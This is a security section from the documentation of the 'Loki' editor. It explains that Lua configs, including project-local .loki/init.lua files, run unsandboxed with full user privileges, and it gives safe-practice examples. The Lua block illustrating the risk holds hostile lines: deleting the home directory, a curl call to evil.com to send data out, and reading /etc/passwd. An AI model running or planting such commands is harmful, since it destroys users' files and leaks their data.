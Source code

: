 
## Lua Security Model

### Execution Model

**Loki executes Lua scripts with the full privileges of your user account.** There is **no sandboxing** by design. This is intentional for several reasons:

1. **Simplicity**: No complex sandboxing mechanisms to maintain or bypass
2. **Functionality**: Full access to system APIs enables powerful automation
3. **Trust Model**: You control what scripts run in your editor
4. **Single-User**: Loki is not a multi-user or network service

### Configuration File Trust

Loki loads Lua configuration in this order:

1. **Local project config**: `.loki/init.lua` (current working directory)
2. **Global config**: `~/.loki/init.lua` (home directory)

**Security Implications:**

```lua
-- .loki/init.lua can do ANYTHING your user account can do:
os.execute("rm -rf ~/*")              -- Delete your home directory
io.popen("curl http://evil.com"):read()  -- Send data to remote server
require("socket").tcp():connect()     -- Open network connections
io.open("/etc/passwd"):read("*a")     -- Read sensitive files (if permissions allow)
```

### Risks

| Risk | Severity | Mitigation |
|------|----------|------------|
| Malicious `.loki/init.lua` in cloned repos | **CRITICAL** | Always review before opening projects |
| Typosquatting in module names | **HIGH** | Verify module sources |
| API key leakage in config files | **HIGH** | Use environment variables, never commit keys |
| Unintended file system operations | **MEDIUM** | Review scripts before execution |

### Safe Configuration Practices

**DO:**

```lua
-- Use environment variables for secrets
local api_key = os.getenv("OPENAI_API_KEY")

-- Validate external inputs
local function safe_insert(text)
    if type(text) ~= "string" or #text > 10000 then
        loki.status("Invalid input")
        return
    end
    loki.insert_text(text)
end

-- Use pcall for error handling
local ok, result = pcall(function()
    return require("untrusted_module")
end)
if not ok then
    loki.status("Failed to load module: " .. result)
end
```